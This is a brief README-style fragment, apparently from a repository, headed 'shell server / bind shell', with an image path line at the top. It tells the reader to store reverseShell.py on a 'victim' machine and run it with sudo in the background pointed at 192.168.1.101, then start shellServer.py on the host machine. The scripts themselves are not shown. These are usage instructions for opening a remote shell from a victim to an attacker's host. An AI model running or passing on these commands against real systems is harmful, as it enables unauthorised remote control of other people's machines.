 # shell server / bind shell

store at victim reverseShell.py and start 
```bash
sudo python reverseShell.py 192.168.1.101 &
```

start at host machine
```bash
sudo python3 shellServer.py
```
